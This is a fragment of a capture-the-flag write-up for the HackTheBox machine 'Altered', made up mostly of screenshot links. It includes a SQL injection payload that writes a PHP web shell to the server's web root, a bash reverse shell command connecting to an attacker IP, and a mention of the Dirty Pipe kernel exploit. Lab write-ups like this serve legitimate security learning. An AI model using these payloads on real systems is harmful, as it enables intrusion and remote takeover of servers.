 ### sqli succesfully written to file
![](sqli%20write%20file%20succesfull.png)

### server error while writing file because sql retrieves no colum back
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/sqli%20write%20file%20succesfull.png)

### php web shell
````mysql
{"id":"1000000000 union select 1,2,'<?php system($_REQUEST[\"cmd\"])?>' INTO OUTFILE '/srv/altered/public/almost.php'-- -", "secret":true}

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/mysql%20to%20php%20web%20shell.png)

### burpsuite get request changed to post request
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/burpsuite%20reverse%20shell.png)
````bash
cmd=bash -c 'bash+-i+>%26+/dev/tcp/10.10.14.11/1111+0>%261'

`````
## shell
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/shell%20as%20www-data.png)

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/list%20kernel%20version.png)

### google search for exploit --> dirty pipe
![](Pasted%20image%2020221001004741.png)


XXXXXXXXXXXXXX